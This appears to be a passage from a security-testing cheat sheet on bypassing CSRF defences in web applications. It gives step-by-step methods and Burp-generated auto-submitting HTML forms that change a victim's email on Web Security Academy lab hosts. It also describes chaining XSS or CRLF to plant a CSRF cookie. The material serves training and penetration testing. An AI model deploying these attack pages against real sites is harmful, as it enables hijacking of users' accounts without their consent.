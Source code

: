 ### Bypass Method - 3: Feed your own account generated CSRF token in attack.

```markdown
Test Case: CSRF token is not tied to the user session.

1. Interect with functionality and intercept the request.
2. Right click generate csrf poc.
3. Copy the code in a file.html remove any session token
4. Drop the request.
5. Send the file.html to victim.

Example CSRF Code:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://acd81f251e0c762980c31ae600c70041.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
		<input type="text" name="csrf" value="NqdmYFyfHgQl8JWLKd7YTOC24Tqdedpw">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

```

### Bypass Method - 4 : Chain any other vulnerability to add your cookie for example `XSS`, `CRLF` → `CSRF`

```markdown
Test Case - 1 : CSRF token is tied to a non-session cookie, when we have two csrf token one in cookie and other in the functionality this is due to presence of two framework one for session handling and one for CSRF protection, which are not integrated together.
					 The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com could be leveraged to place a cookie that is submitted to secure.normal-website.com.

1. Find any vulnerability which allow you to inject something in the cookie of victim.
2. Test if CSRF token is tied to session id (try changing session id keeping everything as it is))
3. Check if the your csrf token works when replaced in victims request
4. Lastly check if you can inject CRLF and change csrf cookie value
5. Done now make a csrf poc with xss payload which execute crlf and send this poc to victim

Example CSRF Code:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac981fc81ee9f58b80984ae400200076.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrfKey" value="ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9">
		<input type="text" name="email" value="hehe@hehe.com">
		<input type="text" name="csrf" value="6EU5SJ9YKzfOsq9rNgDR8toGy0TKSw81">
		<input type="submit" value="Send">
	</form>
```